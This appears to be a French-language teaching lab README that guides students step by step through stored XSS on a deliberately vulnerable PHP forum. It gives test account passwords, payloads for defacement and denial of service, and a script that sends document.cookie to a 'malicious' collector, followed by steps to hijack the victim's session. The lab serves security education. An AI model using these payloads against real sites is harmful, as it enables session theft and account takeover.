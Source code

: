 # Cross-Site Scripting (XSS).

Pour cette preuve de concept, deux utilisateurs seront mobilisés :

- **john_doe**, dont le mot de passe est **CroSS-SitE\$John2020**
- **super_jane**, dont le mot de passe est **CroSS-SitE\$Jane2020**

Le but va être de se connecter avec le compte de **super_jane**, sans utiliser directement son mot de passe. On admettra que John est l'attaquant, et que Jane est la victime.

:bookmark_tabs: Mode d'emploi :

1. Connectez-vous avec le compte de **john_doe**.
2. Postez le message 'Hello World!' sur le forum. Le message devrait s'afficher sous les autres.
3. Ouvrez le fichier `index.php`, repérez la ligne où le message est affiché (dans une balise `<span>`). Cela sera utile pour comprendre la suite.
4. Envoyez un nouveau message contenant du code HTML :

   ```html
   <button class="btn btn-danger">Panic button</button>
   ```

   Que se passe-t'il ?

5. Vous l'aurez compris, il est possible d'envoyer toute balise HTML. Essayez maintenant d'incorporer une image.

   ```html
   <img src="https://www.utt.fr/medias/photo/batiment-recherche-4-_1539869490339-jpg?ID_FICHE=3833"/>
   ```

6. Il est possible d'exploiter l'étape 5 pour créer une attaque par déni de service (DoS) et de défiguration. Renseignez-vous sur ces attaques.
7. Attaquez le site en envoyant une image légèrement modifiée. Ajoutez un attribut style dans la balise `<img>`, ayant pour valeur `style="position: fixed; top: 0; left: 0; width: 100vw; height: 100vh"`. 

    ```html
    <img style="position: fixed; top: 0; left: 0; width: 100vw; height: 100vh" src="https://www.utt.fr/medias/photo/batiment-recherche-4-_1539869490339-jpg?ID_FICHE=3833"/>
    ```
    Le site est-il encore utilisable ? 
    
8. Le site étant inutilisable, supprimez les trois derniers messages dans la base de données.
9. Allons plus loin, voyons s'il est possible d'exécuter du code Javascript. En utilisant la méthode présentée ci-dessus, faîtes que l'instruction `alert('Vive javascript!')` soit exécutée à chaque fois que la page est rechargée.

    ```html
    <script>alert('Vive javascript!')</script>
    ```

10. Passons au vif du sujet, voyons s'il est possible de "voler" la session de **super_jane** avec cette méthode. L'instruction JavaScript permettant d'avoir accès aux cookies de la page est `document.cookie`.
11. En PHP, chaque session est identifiée de manière unique par un cookie de session (**PHPSESSID**). Cette information est personnelle et ne doit en aucun cas être communiquée à une tierce personne. Cet identifiant permettrait à un attaquant de "voler" votre identité, en se faisant passer pour quelqu'un d'autre au niveau du serveur. Jetez un oeil au script `malveillant/index.php`. Que fait ce code ?
12. Préparez un message permettant d'exécuter une requête Ajax GET avec JQuery (`$.get(uri)`) vers notre script malveillant (dont l'uri est `malveillant/index.php`) ayant un paramètre GET appelé cookie. Ce paramètre aura pour valeur les cookies de la page sous la forme d'une chaîne de caractères (en utilisant l'instruction trouvée à la question 10). Envoyez le message. Que se passera-t'il quand un utilisateur rechargera la page ?

    ```html
    <script>$.get('malveillant/index.php?cookie=' + document.cookie)</script>
    ```

13. Vous venez comprendre comment des instructions confidentielles peuvent être envoyées vers un serveur malveillant à l'aide d'attaques XSS. Dans cet exemple le script malveillant est sur le même serveur que l'application de forum. Dans la vrai vie le script malveillant peut être créé par n'importe qui et être hébergé sur n'importe quel serveur.
14. Sur un autre navigateur, mettez-vous dans la peau de Jane en vous connectant avec le compte de **super_jane**. Vérifiez que le fichier `malveillant/cookies.txt` contient les informations des cookies de john_doe, mais aussi ceux de super_jane. En utilisant les informations de ce fichier, modifiez le cookie de session de john_doe en le remplaçant par celui de super_jane. Rechargez la page. :tada: Bravo, vous venez d'usurper l'identité de super_jane !
